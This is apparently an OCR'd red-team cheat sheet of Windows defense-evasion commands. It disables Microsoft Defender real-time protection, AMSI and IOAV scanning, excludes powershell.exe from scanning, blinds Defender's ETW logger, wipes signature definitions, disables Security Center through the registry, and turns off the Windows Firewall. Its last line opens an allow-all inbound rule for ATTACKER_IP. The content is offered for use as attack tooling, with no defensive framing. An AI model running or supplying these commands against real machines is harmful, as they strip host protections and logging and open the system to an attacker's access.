 ```powershell
# Disable Defender
sc config WinDefend start= disabled
sc stop WinDefend
Set-MpPreference -DisableRealtimeMonitoring $true

## Exclude a process / location
Set-MpPreference -ExclusionProcess "word.exe", "vmwp.exe"
Add-MpPreference -ExclusionProcess 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe'
Add-MpPreference -ExclusionPath C:\Video, C:\install

# Disable scanning all downloaded files and attachments, disable AMSI (reactive)
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
PS C:\> Set-MpPreference -DisableIOAVProtection $true
# Disable AMSI (set to 0 to enable)
PS C:\> Set-MpPreference -DisableScriptScanning 1 

# Blind ETW Windows Defender: zero out registry values corresponding to its ETW sessions
reg add "HKLM\System\CurrentControlSet\Control\WMI\Autologger\DefenderApiLogger" /v "Start" /t REG_DWORD /d "0" /f

# Wipe currently stored definitions
# Location of MpCmdRun.exe: C:\ProgramData\Microsoft\Windows Defender\Platform\<antimalware platform version>
MpCmdRun.exe -RemoveDefinitions -All

# Remove signatures (if Internet connection is present, they will be downloaded again):
PS > & "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -RemoveDefinitions -All
PS > & "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All

# Disable Windows Defender Security Center
reg add "HKLM\System\CurrentControlSet\Services\SecurityHealthService" /v "Start" /t REG_DWORD /d "4" /f

# Disable Real Time Protection
reg delete "HKLM\Software\Policies\Microsoft\Windows Defender" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f
```

### Disable Windows Firewall

```powershell
Netsh Advfirewall show allprofiles
NetSh Advfirewall set allprofiles state off

# ip whitelisting
New-NetFirewallRule -Name morph3inbound -DisplayName morph3inbound -Enabled True -Direction Inbound -Protocol ANY -Action Allow -Profile ANY -RemoteAddress ATTACKER_IP
```
